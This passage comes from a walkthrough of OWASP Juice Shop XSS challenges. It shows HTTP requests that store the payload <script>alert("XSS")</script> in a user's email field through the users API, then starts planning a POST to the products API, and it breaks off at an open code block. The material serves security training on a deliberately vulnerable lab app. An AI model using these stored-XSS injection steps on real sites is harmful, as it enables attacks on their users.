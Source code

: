 {"password":"passpass","passwordRepeat":"passpass","securityQuestion":{"id":7,"question":"Name of your favorite pet?","createdAt":"2018-08-02T00:52:16.363Z","updatedAt":"2018-08-02T00:52:16.363Z"},"securityAnswer":"dogdog","email":"b@b.b"}
```

Replay it with the XSS payload.

```
POST /api/Users/ HTTP/1.1
[...]

{"password":"passpass","passwordRepeat":"passpass","securityQuestion":{"id":7,"question":"Name of your favorite pet?","createdAt":"2018-08-02T00:52:16.363Z","updatedAt":"2018-08-02T00:52:16.363Z"},"securityAnswer":"dogdog","email":"<script>alert(\"XSS\")</script>"}
```

```
HTTP/1.1 201 Created
[...]

{"status":"success","data":{"id":12,"password":"078bbb4bf0f7117fb131ec45f15b5b87","email":"<script>alert(\"XSS\")</script>","updatedAt":"2018-08-07T02:48:45.834Z","createdAt":"2018-08-07T02:48:45.834Z"}}
```

HTTP 201 is promising, did it work? Visit the list of users at `/#/administration` to see.

![XSS2](/img/owasp-juice-shop-v7.3.0/juice056.png)

Yep.

![XSS2](/img/owasp-juice-shop-v7.3.0/juice057.png)

# XSS Tier 3

> Perform a persisted XSS attack with \<script\>alert(\"XSS\")\</script\> without using the frontend application at all.

There are a couple clues in the description of this challenge that point to where we need to attack. First, 'persisted XSS' means we're storing user input so we'll want to consider PUT, POST, or similar requests. Second, 'without using the frontend application at all' tells me we're to perform some function that the webapp is not outwardly capable of. That is, do a POST or PUT on something for which we've only previously seen GET requests.

The products API matches this description. I have not seen a feature of the webapp that creates new products.

```
GET /api/Products/1?d=Tue%20Aug%2007%202018 HTTP/1.1
[...]
```

```
HTTP/1.1 200 OK
[...]

{"status":"success","data":{"id":1,"name":"Apple Juice (1000ml)","description":"The all-time classic.","price":1.99,"image":"apple_juice.jpg","createdAt":"2018-08-02T00:52:16.118Z","updatedAt":"2018-08-02T00:52:16.118Z","deletedAt":null}}
```

As in the Product Tampering challenge, we can surmise the form of a PUT or POST request by looking at the key/value pairs in the JSON of a related GET request like the one immediately above. In this case, we'll try including values for the name, description, price, image, and deletedAt keys. Make sure to include the Content-Type header.

```{% raw %}
```